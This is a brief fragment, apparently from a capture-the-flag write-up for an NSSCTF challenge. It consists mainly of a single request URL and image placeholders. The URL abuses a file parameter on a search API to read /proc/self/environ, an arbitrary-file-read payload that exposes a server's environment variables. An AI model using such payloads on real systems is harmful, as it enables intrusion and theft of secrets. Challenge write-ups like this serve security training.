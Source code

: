 ```
http://node6.anna.nssctf.cn:23779/api-base/v0/search?file=/proc/self/environ
```

![alt text](images/image-5.png)

![alt text](images/image-6.png)
